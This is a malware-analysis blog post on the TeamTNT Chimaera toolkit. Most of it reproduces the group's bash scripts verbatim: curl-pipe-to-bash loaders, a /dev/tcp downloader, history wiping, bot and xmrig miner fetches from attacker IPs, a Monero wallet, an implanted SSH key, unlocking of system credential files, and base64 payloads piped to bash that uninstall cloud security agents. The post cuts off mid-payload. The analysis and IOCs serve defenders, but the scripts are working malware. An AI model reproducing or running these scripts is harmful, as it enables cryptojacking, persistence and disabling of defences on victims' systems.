

## TeamTNT Toolkit

The files we have received were used scripts by group TeamTNT in their Chimaera campaign. This campaign has been discussed multiple times by various security vendors and researchers.

1. TrendMicro discussed it here: https://www.trendmicro.com/en_us/research/21/c/teamtnt-continues-attack-on-the-cloud–targets-aws-credentials.html
2. PaloAlto Unit42 discussed it here: https://unit42.paloaltonetworks.com/hildegard-malware-teamtnt/

A security researcher on Twitter named r3dbU7z (https://twitter.com/r3dbU7z) tracked TeamTNT and uploaded a collection of TeamTNTs scripts/toolkits onto VirusTotal. Threat Actors became aware of this, pulled the script compilation from a different location (we believe bazaar.abuse.ch), and have modified them for their personal usage and are being distributed to ransomware affiliates to aid to post-exploitation. The files we are sharing are NOT detected well on VirusTotal (they are bash scripts, we are aware it is difficult to make YARA/SIGMA rules that cover them well).

The PaloAlto write-up is awesome. I highly recommend taking a look at these scripts while reading the write-up for a full dissection.

---


### Main Scripts

*Disclaimer: I am far from an expert on Docker, Kubernetes, or AWS (which it looks like this campaign was targeting) so if I make a mistake on my assumptions please tell me. I’ll learn something new and I’ll fix the post.*

There’s a lot of scripts in here so I’m going to just go through the one’s I found the most interesting. But there’s also one called init.sh so let’s start there.

```
# curl http://45.9.148.182/cmd/init.sh | bash


curl http://45.9.148.182/cmd/Kubernetes_root_PayLoad_1.sh | bash
curl http://45.9.148.182/cmd/Kubernetes_root_PayLoad_2.sh | bash
```

<br><br>


It’ll download and launch two different scripts. Both of which are conveniently included in this release from VXUG.

```
#!/bin/bash
#
#	TITLE:		Chimaera_Kubernetes_root_PayLoad_1
#	AUTOR:		hilde@teamtnt.red
#	VERSION:	Chimaera_stable_V1.00.1
#	DATE:		12.08.2021
#
#	SRC:        http://45.9.148.182/cmd/Kubernetes_root_PayLoad_1.sh
#
########################################################################

export LC_ALL=C.UTF-8 2>/dev/null 1>/dev/null
export LANG=C.UTF-8 2>/dev/null 1>/dev/null
HISTCONTROL="ignorespace${HISTCONTROL:+:$HISTCONTROL}" 2>/dev/null 1>/dev/null
export HISTFILE=/dev/null 2>/dev/null 1>/dev/null
HISTSIZE=0 2>/dev/null 1>/dev/null
unset HISTFILE 2>/dev/null 1>/dev/null

if [ "$(uname -m)" = "aarch64" ]; then C_hg_SYS="aarch64"
elif [ "$(uname -m)" = "x86_64" ];  then C_hg_SYS="x86_64"
elif [ "$(uname -m)" = "i386" ];    then C_hg_SYS="i386"
else C_hg_SYS="i386"; fi

export PATH=$PATH:/var/bin:/bin:/sbin:/usr/sbin:/usr/bin
if [ "$(hostname)" = "HaXXoRsMoPPeD" ]; then exit ; fi

BOT_BIN_URL="http://85.214.149.236:443/sugarcrm/themes/default/images/SugarLogic/.../TNTb/$C_hg_SYS"

cat /etc/hosts 2>/dev/null | grep '45.9.148.108 chimaera.cc' 2>/dev/null 1>/dev/null || echo '45.9.148.108 chimaera.cc' >> /etc/hosts


function C_hg_PACK_SETUP(){
BINARY=$1
APKPACK=$2
APTPACK=$3
YUMPACK=$4
if ! type $BINARY 2>/dev/null 1>/dev/null; then 
if type apk 2>/dev/null 1>/dev/null; then apk update 2>/dev/null 1>/dev/null; apk add $APKPACK 2>/dev/null 1>/dev/null ; fi
if type apt-get 2>/dev/null 1>/dev/null; then apt-get update --fix-missing 2>/dev/null 1>/dev/null; apt-get install -y $APTPACK 2>/dev/null 1>/dev/null; apt-get install -y $APTPACK --reinstall 2>/dev/null 1>/dev/null ; fi
if type yum 2>/dev/null 1>/dev/null; then yum clean all 2>/dev/null 1>/dev/null; yum install -y $YUMPACK 2>/dev/null 1>/dev/null; yum reinstall -y $YUMPACK 2>/dev/null 1>/dev/null ; fi
fi
}

function C_hg_DLOAD() {
  read proto server path <<< "${1//"/"/ }"
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  while IFS= read -r line ; do 
      [[ "$line" == $'\r' ]] && break
  done <&3
  nul='\0'
  while IFS= read -d '' -r x || { nul=""; [ -n "$x" ]; }; do 
      printf "%s$nul" "$x"
  done <&3
  exec 3>&-
}

C_hg_PACK_SETUP curl curl curl curl
if ! type curl 2>/dev/null 1>/dev/null; then C_hg_DLOAD $HTTP_BASE_URL/bin/curl/$(uname -m) > /usr/bin/curl;chmod 755 /usr/bin/curl; fi

########################################################################

if [ ! -f "/usr/bin/dockerd_env" ];then
	if [ ! -f "/usr/bin/dockerd_env" ];then wget -q -O /usr/bin/dockerd_env $BOT_BIN_URL; fi	
	if [ ! -f "/usr/bin/dockerd_env" ];then curl -sLk -o /usr/bin/dockerd_env $BOT_BIN_URL; fi	
	if [ ! -f "/usr/bin/dockerd_env" ];then C_hg_DLOAD $BOT_BIN_URL > /usr/bin/dockerd_env; fi	
		if [ -f "/usr/bin/dockerd_env" ];then	
		chattr -ia /usr/bin/dockerd_env 2>/dev/null 1>/dev/null
		chmod +x /usr/bin/dockerd_env 2>/dev/null 1>/dev/null
		chmod 755 /usr/bin/dockerd_env 2>/dev/null 1>/dev/null
		fi
fi

if [ -f "/usr/bin/dockerd_env" ];then
	CHECK_BOT_PID=$(pidof /usr/bin/dockerd_env)
	if [ -z "$CHECK_BOT_PID" ]; then
	chmod +x /usr/bin/dockerd_env 2>/dev/null 1>/dev/null
	/usr/bin/dockerd_env ; fi
fi

chattr -ia ~/.dockerd /.dockerd ~/.configures /.configures /usr/bin/.kube /usr/sbin/.kube 2>/dev/null 1>/dev/null
	rm -f ~/.dockerd /.dockerd ~/.configures /.configures /usr/bin/.kube /usr/sbin/.kube 2>/dev/null 1>/dev/null
		pkill '\.dockerd' 2>/dev/null 1>/dev/null
		pkill '\.kube' 2>/dev/null 1>/dev/null
		pkill '\.configures' 2>/dev/null 1>/dev/null

rm -f k31r.sh 2>/dev/null
```


This script basically looks at information regarding the victim machine and depending on what it finds out, it’ll install the next payload based on the architecture. Some IOCs here:

* 85.214.149[.]236:443
* 45.9.148[.]108:80
* chimaera[.]cc


However, these are most likely not in use anymore considering the campaign is done and they’re probably aware of VX-Underground’s release plus the excerpt from Smelly__vx mentioned that they have modified the scripts.

Another thing to note is that a common part of all of these scripts is the if-then statement that states if the hostname of the machine is HaXXoRsMoPPeD then the script will just exit. Theoretically to stop these scripts from running on their own machines by accident.

---


The second script ran from the init.sh script is below.

```
#!/bin/bash
#
#	TITLE:		Chimaera_Kubernetes_root_PayLoad_2
#	AUTOR:		hilde@teamtnt.red
#	VERSION:	Chimaera_stable_V1.00.1
#	DATE:		12.08.2021
#
#	SRC:        curl -Lk http://45.9.148.182/cmd/Kubernetes_root_PayLoad_2.sh | bash
#
########################################################################

ulimit -n 65535

export LC_ALL=C.UTF-8 2>/dev/null 1>/dev/null
export LANG=C.UTF-8 2>/dev/null 1>/dev/null
HISTCONTROL="ignorespace${HISTCONTROL:+:$HISTCONTROL}" 2>/dev/null 1>/dev/null
export HISTFILE=/dev/null 2>/dev/null 1>/dev/null
HISTSIZE=0 2>/dev/null 1>/dev/null
unset HISTFILE 2>/dev/null 1>/dev/null

if [ "$(uname -m)" = "aarch64" ]; then C_hg_SYS="aarch64"
elif [ "$(uname -m)" = "x86_64" ];  then C_hg_SYS="x86_64"
elif [ "$(uname -m)" = "i386" ];    then C_hg_SYS="i386"
else C_hg_SYS="i386"; fi

WALLET="84hYzyMkfn8RAb5yMq7v7QfcZ3zgBhsGxYjMKcZU8E43ZDDwDAdKY5t84TMZqfPVW84Dq58AhP3AbUNoxznhvxEaV23f57T"
ID_RSA_KEY='ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDYmuFzpuEpN/KHPbQkSUT1Xe/gVl3FpIe/GlhJEnW84rCMsYhRe2xxcPc1xfZd10JBhM1kEhs5aycIYiPvLYTRi7mA88hE15OVCkwgPT2HgaY8oetbiNiu18jBygbnku2/avpf/Xl2vkcNJRwHjkik3/Vid9fSleNWeAI+RGrMRRiP4hXVBQjHbuSFlw2VDg0uZINodP+n8oWBDHGnMGei9W6OXxQ3R5C+oKBw9NA3K/drsqvJh81jbEkDXyqCG0Nj0sAUk6o/aGIIQpwxI3ez2Vi/lqm5LYsRO6ICsHP6RXJT/08XkUVNMu7BLnje2RCG/kSKjVqW8QePyajHJ64kHwYf1yeyGfObZJWhUSP3yPK6UtGxBouyA/TPTqvba4vAmUy1Jl7hyWkoa4KUwgmsEizmT9n8GEg1USPXxRWNqv0VIi5160tcoujrB85HYwjwIhbphCqhTKyNwnnFJNratI1hGurgr8t0fflC/igLph8PapiayTwTLEbNwSUwVp8D3rvBkYB+XV2wO4+q24IoNZJO6ePXEA80jAVEa7eGhlnV5BUIIG+pYP/CkukcggyW+vGRTrl07KrvhAn9dLGDg1J8KZM2hMx5L/2ulgjKTjPZI566fL6Y0dDhPJZH8bxAq6i/ciXXZFeuaG4eCDkitPdSzhFtyuZQj712h6NLow== root@localhost'
SO_FILE="http://85.214.149.236:443/sugarcrm/themes/default/images/SugarLogic/.../xmr/kuben3/$C_hg_SYS.so"

#XMR_1_BIN_URL="http://85.214.149.236:443/sugarcrm/themes/default/images/SugarLogic/.../xmr/kuben3/xmrig.tar.gz123"
XMR_1_BIN_FSZ="3065726"
XMR_2_BIN_URL="http://85.214.149.236:443/sugarcrm/themes/default/images/SugarLogic/.../xmr/kuben3/$C_hg_SYS.tar.gz"
XMR_1_BIN_URL="http://85.214.149.236:443/sugarcrm/themes/default/images/SugarLogic/.../xmr/kuben3/$C_hg_SYS.tar.gz"

export HOME=/usr/sbin
export PATH=$PATH:/var/bin:/bin:/sbin:/usr/sbin:/usr/bin
if [ "$(hostname)" = "HaXXoRsMoPPeD" ]; then exit ; fi

if [ -f "/usr/sbin/.configure/xmrig" ]; then
unset CHECK_RUNNING
CHECK_RUNNING=$(pidof /usr/sbin/.configure/xmrig)
if [ -z "$CHECK_RUNNING" ]; then 
/usr/sbin/.configure/xmrig -c /usr/sbin/.configure/config_background.json
fi

if [ ! -z "$CHECK_RUNNING" ]; then exit ; fi
fi

########################################################################

function C_hg_DLOAD() {
  read proto server path <<< "${1//"/"/ }"
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  while IFS= read -r line ; do 
      [[ "$line" == $'\r' ]] && break
  done <&3
  nul='\0'
  while IFS= read -d '' -r x || { nul=""; [ -n "$x" ]; }; do 
      printf "%s$nul" "$x"
  done <&3
  exec 3>&-
}

function C_hg_UNLOCK(){
C_hg_FILE_TO_UNLOCK=$1
if [ "$(command -v chattr)" = "0" ]; then chattr -ia $C_hg_FILE_TO_UNLOCK 2>/dev/null 1>/dev/null; fi
if [ "$(command -v tntrecht)" = "0" ]; then tntrecht -ia $C_hg_FILE_TO_UNLOCK 2>/dev/null 1>/dev/null; fi
if [ "$(command -v ichdarf)" = "0" ]; then ichdarf -ia $C_hg_FILE_TO_UNLOCK 2>/dev/null 1>/dev/null; fi
if [ "$(command -v C_hg_chattr)" = "0" ]; then C_hg_chattr -ia $C_hg_FILE_TO_UNLOCK 2>/dev/null 1>/dev/null; fi
}

function C_hg_LOCK(){
C_hg_FILE_TO_UNLOCK=$1
if [ "$(command -v chattr)" = "0" ]; then chattr +a $C_hg_FILE_TO_UNLOCK 2>/dev/null 1>/dev/null; fi
if [ "$(command -v tntrecht)" = "0" ]; then tntrecht +a $C_hg_FILE_TO_UNLOCK 2>/dev/null 1>/dev/null; fi
if [ "$(command -v ichdarf)" = "0" ]; then ichdarf +a $C_hg_FILE_TO_UNLOCK 2>/dev/null 1>/dev/null; fi
if [ "$(command -v C_hg_chattr)" = "0" ]; then C_hg_chattr +a $C_hg_FILE_TO_UNLOCK 2>/dev/null 1>/dev/null; fi
}

function C_hg_SYSTEM_FIX(){
C_hg_DIR_ARRAY=("/" "/tmp" "/var" "/var/tmp" "/var/spool" "/var/spool/cron" "/var/spool/cron/crontabs" "/bin" "/sbin" "/usr" "/usr/bin" "/usr/sbin" "/dev" "/dev/shm" "/etc" "/etc/ssh" "/root" "/root/.ssh")
C_hg_FILE_ARRAY=("/var/spool/cron/crontabs/root" "/var/spool/cron/root" "/etc/crontab" "/etc/resolv.conf" "/etc/hosts" "/etc/motd" "/etc/passwd" "/etc/shadow" "/etc/sudoers" "/etc/group" "/etc/ssh/ssh_config" "/etc/ssh/sshd_config" "/root/.ssh/authorized_keys" "/root/.ssh/authorized_keys2")
for C_hg_DIR in ${C_hg_DIR_ARRAY[@]}; do C_hg_UNLOCK $C_hg_DIR 2>/dev/null 1>/dev/null; done
for C_hg_FILE in ${C_hg_FILE_ARRAY[@]}; do C_hg_UNLOCK $C_hg_FILE 2>/dev/null 1>/dev/null; done
}

function C_hg_PACK_SETUP(){
BINARY=$1
APKPACK=$2
APTPACK=$3
YUMPACK=$4
if ! type $BINARY 2>/dev/null 1>/dev/null; then 
if type apk 2>/dev/null 1>/dev/null; then apk update 2>/dev/null 1>/dev/null; apk add $APKPACK 2>/dev/null 1>/dev/null ; fi
if type apt-get 2>/dev/null 1>/dev/null; then apt-get update --fix-missing 2>/dev/null 1>/dev/null; apt-get install -y $APTPACK 2>/dev/null 1>/dev/null; fi
if type yum 2>/dev/null 1>/dev/null; then yum clean all 2>/dev/null 1>/dev/null; yum install -y $YUMPACK 2>/dev/null 1>/dev/null; fi ; fi
	if ! type $BINARY 2>/dev/null 1>/dev/null; then 
	if type apk 2>/dev/null 1>/dev/null; then apk update 2>/dev/null 1>/dev/null; apk info | xargs apk fix 2>/dev/null 1>/dev/null ; fi
	if type apt-get 2>/dev/null 1>/dev/null; then apt-get update --fix-missing 2>/dev/null 1>/dev/null; apt-get install -y $APTPACK --reinstall 2>/dev/null 1>/dev/null ; fi
	if type yum 2>/dev/null 1>/dev/null; then yum clean all 2>/dev/null 1>/dev/null; yum reinstall -y $YUMPACK 2>/dev/null 1>/dev/null ; fi ; 	fi
}

function C_hg_IF_EXIST_REMOVE(){
C_hg_TEXT=$1
C_hg_FILE=$2
if [[ "$(grep $C_hg_TEXT $C_hg_FILE)" ]]; then
C_hg_UNLOCK $C_hg_FILE
sed -i '/'$C_hg_TEXT'/d' $C_hg_FILE 2>/dev/null
C_hg_LOCK $C_hg_FILE
fi

}

function C_hg_DNS_MOD(){

if [[ ! "$(grep '45.9.148.108 chimaera.cc' /etc/hosts)" ]]; then
C_hg_IF_EXIST_REMOVE chimaera /etc/hosts
C_hg_UNLOCK /etc/hosts
echo "45.9.148.108 chimaera.cc" >> /etc/hosts 2>/dev/null
C_hg_LOCK /etc/hosts
fi

if [[ ! "$(grep '45.9.148.108 teamtnt.red' /etc/hosts)" ]]; then
C_hg_IF_EXIST_REMOVE teamtnt /etc/hosts
C_hg_UNLOCK /etc/hosts
echo "45.9.148.108 teamtnt.red" >> /etc/hosts 2>/dev/null
C_hg_LOCK /etc/hosts
fi

if [[ ! "$(grep 'nameserver 8.8.8.8\|nameserver 8.8.4.4' /etc/resolv.conf)" ]]; then 
C_hg_IF_EXIST_REMOVE nameserver /etc/resolv.conf
fi

if [[ ! "$(grep 'nameserver 8.8.8.8' /etc/resolv.conf)" ]]; then 
C_hg_UNLOCK /etc/resolv.conf
echo "nameserver 8.8.8.8" >> /etc/resolv.conf 2>/dev/null
C_hg_LOCK /etc/resolv.conf
fi

if [[ ! "$(grep 'nameserver 8.8.4.4' /etc/resolv.conf)" ]]; then 
C_hg_UNLOCK /etc/resolv.conf
echo "nameserver 8.8.4.4" >> /etc/resolv.conf 2>/dev/null
C_hg_LOCK /etc/resolv.conf
fi

}

function C_hg_SYSTEM_MOD(){
C_hg_UNLOCK $(command -v tntrecht)
C_hg_UNLOCK $(command -v chattr)
C_hg_UNLOCK $(command -v ichdarf)
C_hg_UNLOCK $(command -v C_hg_chattr)

if [[ "$(command -v tntrecht)" ]]; then
rm -f $(command -v chattr) 2>/dev/null 1>/dev/null
mv $(command -v tntrecht) /usr/bin/chattr 2>/dev/null 1>/dev/null
chmod +x /usr/bin/chattr 2>/dev/null 1>/dev/null
fi

if [ ! -f "/usr/sbin/C_hg_curl" ]; then
if [ ! -f "$(command -v curl)" ]; then C_hg_PACK_SETUP curl curl curl curl ; fi
cp $(command -v curl) /usr/sbin/C_hg_curl
chmod +x /usr/sbin/C_hg_curl
C_hg_LOCK /usr/sbin/C_hg_curl
fi
}

function C_hg_VOR_INIT(){
C_hg_SYSTEM_FIX
C_hg_DNS_MOD
C_hg_PACK_SETUP curl curl curl curl
C_hg_PACK_SETUP wget wget wget wget
C_hg_PACK_SETUP bash bash bash bash
C_hg_PACK_SETUP sudo sudo sudo sudo
C_hg_PACK_SETUP nproc coreutils coreutils coreutils
C_hg_PACK_SETUP bc bc bc bc
C_hg_PACK_SETUP lspci pciutils pciutils pciutils
C_hg_SYSTEM_MOD
}

C_hg_VOR_INIT

########################################################################


if ps aux | grep -i '[a]liyun' 2>/dev/null 1>/dev/null; then
echo 'IyEvYmluL2Jhc2gKCkFFR0lTX0lOU1RBTExfRElSPSIvdXNyL2xvY2FsL2FlZ2lzIgojY2hlY2sgbGludXggR2VudG9vIG9zIAp2YXI9YGxzYl9yZWxlYXNlIC1hIHwgZ3JlcCBHZW50b29gCmlmIFsgLXogIiR7dmFyfSIgXTsgdGhlbiAKCXZhcj1gY2F0IC9ldGMvaXNzdWUgfCBncmVwIEdlbnRvb2AKZmkKY2hlY2tDb3Jlb3M9YGNhdCAvZXRjL29zLXJlbGVhc2UgMj4vZGV2L251bGwgfCBncmVwIGNvcmVvc2AKaWYgWyAtZCAiL2V0Yy9ydW5sZXZlbHMvZGVmYXVsdCIgLWEgLW4gIiR7dmFyfSIgXTsgdGhlbgoJTElOVVhfUkVMRUFTRT0iR0VOVE9PIgplbGlmIFsgLWYgIi9ldGMvb3MtcmVsZWFzZSIgLWEgLW4gIiR7Y2hlY2tDb3Jlb3N9IiBdOyB0aGVuCglMSU5VWF9SRUxFQVNFPSJDT1JFT1MiCglBRUdJU19JTlNUQUxMX0RJUj0iL29wdC9hZWdpcyIKZWxzZSAKCUxJTlVYX1JFTEVBU0U9Ik9USEVSIgpmaQkJCgpzdG9wX2FlZ2lzX3BraWxsKCl7CiAgICBwa2lsbCAtOSBBbGlZdW5EdW4gPi9kZXYvbnVsbCAyPiYxCiAgICBwa2lsbCAtOSBBbGlIaWRzID4vZGV2L251bGwgMj4mMQogICAgcGtpbGwgLTkgQWxpSGlwcyA+L2Rldi9udWxsIDI+JjEKICAgIHBraWxsIC05IEFsaU5ldCA+L2Rldi9udWxsIDI+JjEKICAgIHBraWxsIC05IEFsaVNlY0d1YXJkID4vZGV2L251bGwgMj4mMQogICAgcGtpbGwgLTkgQWxpWXVuRHVuVXBkYXRlID4vZGV2L251bGwgMj4mMQogICAgCiAgICAvdXNyL2xvY2FsL2FlZ2lzL0FsaU5ldC9BbGlOZXQgLS1zdG9wZHJpdmVyCiAgICAvdXNyL2xvY2FsL2FlZ2lzL2FsaWhpcHMvQWxpSGlwcyAtLXN0b3Bkcml2ZXIKICAgIC91c3IvbG9jYWwvYWVnaXMvQWxpU2VjR3VhcmQvQWxpU2VjR3VhcmQgLS1zdG9wZHJpdmVyCiAgICBwcmludGYgIiUtNDBzICU0MHNcbiIgIlN0b3BwaW5nIGFlZ2lzIiAiWyAgT0sgIF0iCn0KCiMgY2FuIG5vdCByZW1vdmUgYWxsIGFlZ2lzIGZvbGRlciwgYmVjYXVzZSB0aGVyZSBpcyBiYWNrdXAgZmlsZSBpbiBnbG9iYWxjZmcKcmVtb3ZlX2FlZ2lzKCl7Cmtwcm9iZUFycj0oCiAgICAiL3N5cy9rZXJuZWwvZGVidWcvdHJhY2luZy9pbnN0YW5jZXMvYWVnaXNfZG9fc3lzX29wZW4vc2V0X2V2ZW50IgogICAgIi9zeXMva2VybmVsL2RlYnVnL3RyYWNpbmcvaW5zdGFuY2VzL2FlZ2lzX2luZXRfY3NrX2FjY2VwdC9zZXRfZXZlbnQiCiAgICAiL3N5cy9rZXJuZWwvZGVidWcvdHJhY2luZy9pbnN0YW5jZXMvYWVnaXNfdGNwX2Nvbm5lY3Qvc2V0X2V2ZW50IgogICAgIi9zeXMva2VybmVsL2RlYnVnL3RyYWNpbmcvaW5zdGFuY2VzL2FlZ2lzL3NldF9ldmVudCIKICAgICIvc3lzL2tlcm5lbC9kZWJ1Zy90cmFjaW5nL2luc3RhbmNlcy9hZWdpc18vc2V0X2V2ZW50IgogICAgIi9zeXMva2VybmVsL2RlYnVnL3RyYWNpbmcvaW5zdGFuY2VzL2FlZ2lzX2FjY2VwdC9zZXRfZXZlbnQiCiAgICAiL3N5cy9rZXJuZWwvZGVidWcvdHJhY2luZy9rcHJvYmVfZXZlbnRzIgogICAgIi91c3IvbG9jYWwvYWVnaXMvYWVnaXNfZGVidWcvdHJhY2luZy9zZXRfZXZlbnQiCiAgICAiL3Vzci9sb2NhbC9hZWdpcy9hZWdpc19kZWJ1Zy90cmFjaW5nL2twcm9iZV9ldmVudHMiCikKZm9yIHZhbHVlIGluICR7a3Byb2JlQXJyW0BdfQpkbwogICAgaWYgWyAtZiAiJHZhbHVlIiBdOyB0aGVuCiAgICAgICAgZWNobyA+ICR2YWx1ZQogICAgZmkKZG9uZQppZiBbIC1kICIke0FFR0lTX0lOU1RBTExfRElSfSIgXTt0aGVuCiAgICB1bW91bnQgJHtBRUdJU19JTlNUQUxMX0RJUn0vYWVnaXNfZGVidWcKICAgIGlmIFsgLWQgIiR7QUVHSVNfSU5TVEFMTF9ESVJ9L2Nncm91cC9jcHUiIF07dGhlbgogICAgICAgIHVtb3VudCAke0FFR0lTX0lOU1RBTExfRElSfS9jZ3JvdXAvY3B1CiAgICBmaQogICAgaWYgWyAtZCAiJHtBRUdJU19JTlNUQUxMX0RJUn0vY2dyb3VwIiBdO3RoZW4KICAgICAgICB1bW91bnQgJHtBRUdJU19JTlNUQUxMX0RJUn0vY2dyb3VwCiAgICBmaQogICAgcm0gLXJmICR7QUVHSVNfSU5TVEFMTF9ESVJ9L2FlZ2lzX2NsaWVudAogICAgcm0gLXJmICR7QUVHSVNfSU5TVEFMTF9ESVJ9L2FlZ2lzX3VwZGF0ZQoJcm0gLXJmICR7QUVHSVNfSU5TVEFMTF9ESVJ9L2FsaWhpZHMKICAgIHJtIC1yZiAke0FFR0lTX0lOU1RBTExfRElSfS9nbG9iYWxjZmcvZG9tYWluY2ZnLmluaQpmaQp9Cgp1bmluc3RhbGxfc2VydmljZSgpIHsKICAgCiAgIGlmIFsgLWYgIi9ldGMvaW5pdC5kL2FlZ2lzIiBdOyB0aGVuCgkJL2V0Yy9pbml0LmQvYWVnaXMgc3RvcCAgPi9kZXYvbnVsbCAyPiYxCgkJcm0gLWYgL2V0Yy9pbml0LmQvYWVnaXMgCiAgIGZpCgoJaWYgWyAkTElOVVhfUkVMRUFTRSA9ICJHRU5UT08iIF07IHRoZW4KCQlyYy11cGRhdGUgZGVsIGFlZ2lzIGRlZmF1bHQgMj4vZGV2L251bGwKCQlpZiBbIC1mICIvZXRjL3J1bmxldmVscy9kZWZhdWx0L2FlZ2lzIiBdOyB0aGVuCgkJCXJtIC1mICIvZXRjL3J1bmxldmVscy9kZWZhdWx0L2FlZ2lzIiA+L2Rldi9udWxsIDI+JjE7CgkJZmkKICAgIGVsaWYgWyAtZiAvZXRjL2luaXQuZC9hZWdpcyBdOyB0aGVuCiAgICAgICAgIC9ldGMvaW5pdC5kL2FlZ2lzICB1bmluc3RhbGwKCSAgICBmb3IgKCh2YXI9MjsgdmFyPD01OyB2YXIrKykpIGRvCgkJCWlmIFsgLWQgIi9ldGMvcmMke3Zhcn0uZC8iIF07dGhlbgoJCQkJIHJtIC1mICIvZXRjL3JjJHt2YXJ9LmQvUzgwYWVnaXMiCgkJICAgIGVsaWYgWyAtZCAiL2V0Yy9yYy5kL3JjJHt2YXJ9LmQiIF07dGhlbgoJCQkJcm0gLWYgIi9ldGMvcmMuZC9yYyR7dmFyfS5kL1M4MGFlZ2lzIgoJCQlmaQoJCWRvbmUKICAgIGZpCgp9CgpzdG9wX2FlZ2lzX3BraWxsCnVuaW5zdGFsbF9zZXJ2aWNlCnJlbW92ZV9hZWdpcwp1bW91bnQgJHtBRUdJU19JTlNUQUxMX0RJUn0vYWVnaXNfZGVidWcKCgpwcmludGYgIiUtNDBzICU0MHNcbiIgIlVuaW5zdGFsbGluZyBhZWdpcyIgICJbICBPSyAgXSIKCgoK' | base64 -d | bash
echo 'IyEvYmluL2Jhc2gKCiNjaGVjayBsaW51eCBHZW50b28gb3MgCnZhcj1gbHNiX3JlbGVhc2UgLWEgfCBncmVwIEdlbnRvb2AKaWYgWyAteiAiJHt2YXJ9IiBdOyB0aGVuIAoJdmFyPWBjYXQgL2V0Yy9pc3N1ZSB8IGdyZXAgR2VudG9vYApmaQoKaWYgWyAtZCAiL2V0Yy9ydW5sZXZlbHMvZGVmYXVsdCIgLWEgLW4gIiR7dmFyfSIgXTsgdGhlbgoJTElOVVhfUkVMRUFTRT0iR0VOVE9PIgplbHNlCglMSU5VWF9SRUxFQVNFPSJPVEhFUiIKZmkKCnN0b3BfYWVnaXMoKXsKCWtpbGxhbGwgLTkgYWVnaXNfY2xpID4vZGV2L251bGwgMj4mMQoJa2lsbGFsbCAtOSBhZWdpc191cGRhdGUgPi9kZXYvbnVsbCAyPiYxCglraWxsYWxsIC05IGFlZ2lzX2NsaSA+L2Rldi9udWxsIDI+JjEKICAgIHByaW50ZiAiJS00MHMgJTQwc1xuIiAiU3RvcHBpbmcgYWVnaXMiICJbICBPSyAgXSIKfQoKc3RvcF9xdWFydHooKXsKCWtpbGxhbGwgLTkgYWVnaXNfcXVhcnR6ID4vZGV2L251bGwgMj4mMQogICAgICAgIHByaW50ZiAiJS00MHMgJTQwc1xuIiAiU3RvcHBpbmcgcXVhcnR6IiAiWyAgT0sgIF0iCn0KCnJlbW92ZV9hZWdpcygpewppZiBbIC1kIC91c3IvbG9jYWwvYWVnaXMgXTt0aGVuCiAgICBybSAtcmYgL3Vzci9sb2NhbC9hZWdpcy9hZWdpc19jbGllbnQKICAgIHJtIC1yZiAvdXNyL2xvY2FsL2FlZ2lzL2FlZ2lzX3VwZGF0ZQpmaQp9CgpyZW1vdmVfcXVhcnR6KCl7CmlmIFsgLWQgL3Vzci9sb2NhbC9hZWdpcyBdO3RoZW4KCXJtIC1yZiAvdXNyL2xvY2FsL2FlZ2lzL2FlZ2lzX3F1YXJ0egpmaQp9CgoKdW5pbnN0YWxsX3NlcnZpY2UoKSB7CiAgIAogICBpZiBbIC1mICIvZXRjL2luaXQuZC9hZWdpcyIgXTsgdGhlbgoJCS9ldGMvaW5pdC5kL2FlZ2lzIHN0b3AgID4vZGV2L251bGwgMj4mMQoJCXJtIC1mIC9ldGMvaW5pdC5kL2FlZ2lzIAogICBmaQoKCWlmIFsgJExJTlVYX1JFTEVBU0UgPSAiR0VOVE9PIiBdOyB0aGVuCgkJcmMtdXBkYXRlIGRlbCBhZWdpcyBkZWZhdWx0IDI+L2Rldi9udWxsCgkJaWYgWyAtZiAiL2V0Yy9ydW5sZXZlbHMvZGVmYXVsdC9hZWdpcyIgXTsgdGhlbgoJCQlybSAtZiAiL2V0Yy9ydW5sZXZlbHMvZGVmYXVsdC9hZWdpcyIgPi9kZXYvbnVsbCAyPiYxOwoJCWZpCiAgICBlbGlmIFsgLWYgL2V0Yy9pbml0LmQvYWVnaXMgXTsgdGhlbgogICAgICAgICAvZXRjL2luaXQuZC9hZWdpcyAgdW5pbnN0YWxsCgkgICAgZm9yICgodmFyPTI7IHZhcjw9NTsgdmFyKyspKSBkbwoJCQlpZiBbIC1kICIvZXRjL3JjJHt2YXJ9LmQvIiBdO3RoZW4KCQkJCSBybSAtZiAiL2V0Yy9yYyR7dmFyfS5kL1M4MGFlZ2lzIgoJCSAgICBlbGlmIFsgLWQgIi9ldGMvcmMuZC9yYyR7dmFyfS5kIiBdO3RoZW4KCQkJCXJtIC1mICIvZXRjL3JjLmQvcmM